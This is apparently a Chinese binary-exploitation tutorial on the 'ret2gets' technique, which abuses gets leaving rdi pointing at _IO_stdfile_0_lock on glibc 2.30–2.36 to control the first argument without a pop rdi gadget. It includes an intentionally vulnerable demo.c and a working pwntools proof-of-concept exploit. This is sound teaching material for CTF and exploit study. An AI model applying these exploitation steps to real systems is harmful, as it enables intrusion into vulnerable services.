

[Ret2gets] 不靠 pop rdi; ret 也能控制 rdi
最后更新于 2026-03-20 by Saud4d3s
讲到 gets，这个函数在 pwn 里确实是太经典了。大多数时候提到它，第一反应都是“无限读入”“经典栈溢出”“早该进历史垃圾堆了”。这些都没错，不过本文关注的不是它能溢出多少，而是它返回以后，寄存器里还剩下什么 。
因为很多函数调用完以后，参数寄存器早就被踩得乱七八糟了，尤其是 rdi，往往很难指望它还留着什么有用的东西。但 gets 在一部分较新的 glibc 版本上，返回的时候，rdi 里留下来是一个libc 里的可写地址 。
一旦这一点成立，利用思路就会变得很直接。既然 rdi 里有个可写地址，那么再调一次 gets，就等于直接往那里面写数据；而第二次 gets 返回以后，rdi 还会继续指向那块地方。这样一来，就算题目里没有现成的 pop rdi; ret，一参函数也仍然有机会接起来。
这就是 ret2gets 最有意思的地方。
为什么会需要这种技巧
先看这个最普通不过的溢出程序：
demo.c // gcc demo.c -o demo -no-pie -fno-stack-protector
#include <stdio.h>
int main ( void )
{
char buf [ 0x20 ];
puts ( "ROP me if you can!" );
gets ( buf );
return 0 ;
}
buf 只有 0x20 字节，而 gets 又没有长度检查，显然是一道非常标准的栈溢出题。对这种程序，最经典的利用路径几乎已经成了固定模板：
先用 puts 泄漏一个 GOT 表项
回到 main
再做一轮 ROP，最后调用 system("/bin/sh")
这条链条本身不复杂，但它几乎默认有一个前提：程序里得先有一个能控制一参的 gadget，最典型的就是 pop rdi; ret。否则连最基础的 puts(puts@got) 都很难摆出来。
但如果真的对这个 demo 跑一遍 ROPgadget，经常会先撞上一堵墙：
Bash ROPgadget --binary demo
information
============================================================
: add bh, bh ; loopne 0x401135 ; nop ; ret
: add byte ptr [ rax] , al ; add byte ptr [ rax] , al ; endbr64 ; ret
: add byte ptr [ rax] , al ; add byte ptr [ rax] , al ; leave ; ret
: add byte ptr [ rax] , al ; add cl, cl ; ret
: add byte ptr [ rax] , al ; add dl, dh ; jmp 0x401020
: add byte ptr [ rax] , al ; add dword ptr [ rbp - 0x3d] , ebx ; nop ; ret
: add byte ptr [ rax] , al ; endbr64 ; ret
: add byte ptr [ rax] , al ; leave ; ret
: add byte ptr [ rax] , al ; test rax, rax ; je 0x401016 ; call rax
: add byte ptr [ rcx] , al ; pop rbp ; ret
: add byte ptr cs:[ rax] , al ; add dword ptr [ rbp - 0x3d] , ebx ; nop ; ret
: add cl, cl ; ret
: add dil, dil ; loopne 0x401135 ; nop ; ret
: add dl, dh ; jmp 0x401020
: add dword ptr [ rbp - 0x3d] , ebx ; nop ; ret
: add eax, 0x2efb ; add dword ptr [ rbp - 0x3d] , ebx ; nop ; ret
: add esp, 8 ; ret
: add rsp, 8 ; ret
: call qword ptr [ rax - 0x5e1f00d]
: call rax
: cli ; jmp 0x4010e0
: cli ; ret
: cli ; sub rsp, 8 ; add rsp, 8 ; ret
: cmp byte ptr [ rax + 0x40] , al ; add bh, bh ; loopne 0x401135 ; nop ; ret
: endbr64 ; jmp 0x4010e0
: endbr64 ; ret
: je 0x401016 ; call rax
: je 0x4010d0 ; mov edi, 0x404038 ; jmp rax
: je 0x401110 ; mov edi, 0x404038 ; jmp rax
: jmp 0x401020
: jmp 0x4010e0
: jmp 0x4840103f
: jmp rax
: leave ; ret
: loopne 0x401135 ; nop ; ret
: mov byte ptr [ rip + 0x2efb] , 1 ; pop rbp ; ret
: mov eax, 0 ; leave ; ret
: mov edi, 0x404038 ; jmp rax
: nop ; ret
: nop dword ptr [ rax] ; endbr64 ; jmp 0x4010e0
: or dword ptr [ rdi + 0x404038] , edi ; jmp rax
: pop rbp ; ret
: ret
: sal byte ptr [ rdx + rax - 1 ] , 0xd0 ; add rsp, 8 ; ret
: sti ; add byte ptr cs:[ rax] , al ; add dword ptr [ rbp - 0x3d] , ebx ; nop ; ret
: sub esp, 8 ; add rsp, 8 ; ret
: sub rsp, 8 ; add rsp, 8 ; ret
: test eax, eax ; je 0x401016 ; call rax
: test eax, eax ; je 0x4010d0 ; mov edi, 0x404038 ; jmp rax
: test eax, eax ; je 0x401110 ; mov edi, 0x404038 ; jmp rax
: test rax, rax ; je 0x401016 ; call rax
gadgets found: 51
什么都看不到，缺的往往还不只是 pop rdi ; ret，很多平时很眼熟的 gadget 也会一起消失。
pop rdi ; ret 平时从哪里来在很多老一些的题目里，最常见的 pop rdi ; ret 来源其实并不是某段“专门给利用者准备好的代码”，而是 __libc_csu_init 里的 pop r15 ; ret。由于 x86 指令是变长的，从中间一个字节开始执行时，会得到新的指令解释：
Text Only
也就是说，只要有 pop r15 ; ret，从第二个字节开始执行，就会得到一个 pop rdi ; ret。而过去的 __libc_csu_init 往往恰好带着这样一串 pop，于是很多很短的小程序也能白拿到一套相当顺手的 gadget。
为什么它在 glibc 2.34+ 里突然不见了
问题出在 glibc 2.34 之后的启动代码调整。glibc 有一处 patch 停止把 __libc_csu_init 编进新二进制里，原本很多题里最常见的 gadget 来源也就跟着一起消失了。
于是就会出现一个很尴尬的局面：程序明明有溢出，也有 puts@plt 和 GOT 这些熟悉的利用点，但真正开始拼链的时候，却发现连 pop rdi ; ret 都没有，经典 ret2plt 思路直接卡在第一步。
拿到 libc 泄漏之后，libc 本体里通常还是能找到 pop rdi ; ret。但问题恰恰就在“还没有 leak 之前”的这一步，程序本体里的 gadget 可能已经差到连第一轮泄漏都做不出来。
ret2gets 要解决的正是这个空档。它并不是为了取代所有 ROP 技巧，而是在“程序本体里 gadget 很差、又还没拿到 libc 泄漏”的时候，先想办法把 rdi 控出来。只要这一步解决，后面的很多事情就都能继续往下做。
问题回到 gets 本身
上面这个程序真正有意思的地方在于：在 gdb 里跑起来，随便输一串东西，再去看 gets 返回前后的寄存器，就会发现 rdi 的值不太对劲。
它并不是还指向一开始传进去的 buf，而是跑到了一个叫 _IO_stdfile_0_lock 的地方去。
这里先记住一件事即可：
_IO_stdfile_0_lock 在 libc 的可写区域里。
光这一点，就已经足够让人起兴趣了。
_IO_stdfile_0_lock 是什么东西如果去看 glibc 里 gets_IO_acquire_lockstdin，结束前再把锁释放掉。
C char *
_IO_gets ( char * buf )
{
size_t count ;
int ch ;
char * retval ;
_IO_acquire_lock ( stdin );
ch = _IO_getc_unlocked ( stdin );
if ( ch == EOF )
{
retval = NULL ;
goto unlock_return ;
}
if ( ch == '\n' )
count = 0 ;
else
{
/* This is very tricky since a file descriptor may be in the
non-blocking mode. The error flag doesn't mean much in this
case. We return an error only when there is a new error. */
int old_error = stdin -> _flags & _IO_ERR_SEEN ;
stdin -> _flags &= ~ _IO_ERR_SEEN ;
buf [ 0 ] = ( char ) ch ;
count = _IO_getline ( stdin , buf + 1 , INT_MAX , '\n' , 0 ) + 1 ;
if ( stdin -> _flags & _IO_ERR_SEEN )
{
retval = NULL ;
goto unlock_return ;
}
else
stdin -> _flags |= old_error ;
}
buf [ count ] = 0 ;
retval = buf ;
unlock_return :
_IO_release_lock ( stdin );
return retval ;
}
glibc 的标准 IO 为了支持多线程，很多时候都会给 FILE 结构加锁。比如 stdin、stdout 这些流，不可能让多个线程随便一起改，所以它们内部会带一个锁对象。
stdin 这个 FILE 结构里有一个 _lock_IO_lock_t
C typedef struct { int lock ; int cnt ; void * owner ; } _IO_lock_t ;
对标准输入来说，这个 _lock 指针通常就会指到 _IO_stdfile_0_lock。
这里不把 glibc 的锁宏一层层全展开，我们只需要知道和利用直接相关的一句话——在常见的 x86_64、glibc 2.30+ 环境下，gets 快返回时会走到 _IO_lock_unlockstdin->_lock 装进 rdi，然后函数直接返回。
于是就得到这样一个结果：
这就是 ret2gets 的出发点。
如果一次 gets 返回以后，rdi 指向的是 _IO_stdfile_0_lock，那下一步自然就是再调用一次 gets。
这样一来，第二次调用就等价于：
C gets ( _IO_stdfile_0_lock );
这意味着输入不再写到栈上，而是写进了 libc 这块可写区域里。更重要的是，第二次 gets 返回以后，rdi 依然会停在这里。于是就得到一个非常实用的效果：
第二次 gets 写进去什么，返回时 rdi 就会指向什么。
对于习惯了“必须先找 pop rdi; ret 才能往下做”的利用路径来说，这里相当于 gets 自己补出了一个可控的一参。
最小 demo 证明 rdi 确实可控
不妨先用一个更小、更干净的 demo 来验证 gets 返回后，rdi 已经指向了目标字符串。
POC 如下：
exp.py from pwn import *
context . log_level = "debug"
elf = context . binary = ELF ( "./demo" )
p = process ()
payload = b "A" * 0x20
payload += p64 ( 0 ) # saved rbp
payload += p64 ( elf . plt . gets ) # ret -> gets@plt
p . sendlineafter ( b "ROP me if you can! \n " , payload )
pause ()
p . sendline ( b "/bin" + p8 ( ord ( "/" ) + 1 ) + b "sh" )
p . interactive ()
这段脚本里最容易让人困惑的地方就是最后一行输入。为什么不直接发一个 /bin/sh，而要写成这样？
原因在于 _IO_stdfile_0_lock 并不是普通字符串缓冲区，它前 8 个字节对应的是：
也就是两个 int。第二次 gets 返回之前，glibc 还要顺手执行一次解锁逻辑，而这一步会对 cnt 做一次减一。
因此如果直接输入 /bin/sh，数据会被这一步破坏掉。
等到解锁时执行 --cnt，0x30 即 0 就会被减成 0x2f，于是整个 8 字节正好变成：
这里打个断点，查看寄存器的值：

到这里就已经足够了，已经可以说明一件非常关键的事：
在没有 pop rdi; ret 的情况下，gets 仍然能够把 rdi 变成一个可控字符串指针。
版本问题
不过要记住，这并不是一个完全不挑环境的技巧。
本文讲的这个最小思路，最适合的环境大致是 glibc 2.30 到 2.36。在这些版本里，gets 返回后把 _IO_stdfile_0_lock 留在 rdi 里的行为比较稳定。
再往前，比如 2.29 以及更早的版本，相关解锁路径的汇编不太一样，_lock 不一定会稳定地留在 rdi 里，最小 demo 往往就跑不通了。
再往后，比如 2.37+，锁的逻辑又有调整。简单的 rdi 控制很多时候还能玩，但更进一步的泄漏技巧、对 cnt 的利用，就需要重新按版本细看。
2026-03-20 17:13:16 2026-03-20 17:19:04